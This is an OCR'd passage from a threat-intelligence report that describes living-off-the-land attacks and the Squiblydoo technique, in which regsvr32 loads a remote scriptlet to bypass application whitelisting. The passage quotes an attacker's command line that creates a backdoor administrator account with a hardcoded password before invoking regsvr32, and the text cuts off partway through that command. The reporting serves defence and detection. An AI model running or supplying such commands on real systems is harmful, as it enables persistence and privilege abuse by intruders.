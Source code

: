 stealthier attacks can result in more widespread and damaging 

ransomware deployment. In these cases, using native or legitimate 

tools rather than malware reduces the chances of detection.

Figure 18\. Native commands executed by BRONZE PRESIDENT 
threat actor. (Source: Secureworks)

State of the Threat: A Year in Review \| 8th Edition

40

Letter From Our VP

Executive Summary 

and Key Findings

Chapter 1: Despite Law 

Enforcement Gains, Cybercrime 

Continues to Flourish

Chapter 2: Notable Trends 

in Tactics, Techniques, 

and Procedures

Chapter 3: Hacktivism Flourishes

Chapter 4: State\-Sponsored 

Threat Activity

Chapter 5: Conclusion

Appendix

Using Squiblydoo 
to Bypass Controls

In a recent incident that Taegis alerted on, a process associated with 

a service executed a binary using the Windows utility Regsvr3261\. 

Regsvr32 is a command\-line utility that can be used to load a COM 

scriptlet directly from the internet and execute it in a way that bypasses 

application whitelisting, using the “scrobj.dll” dll to load .sct scriptlets. 

This technique is still widely used by adversaries to bypass detection and 

prevention controls and is known as Squiblydoo.

The initial command line used in this case was:

cmd /c neti user admin$ Zxcvbnm,.1234 /ad\&neti localgroup 

administrators admin$ /ad\&neti localgroup

administradores admin$ /ad\&regsvr32 /s /u /n 
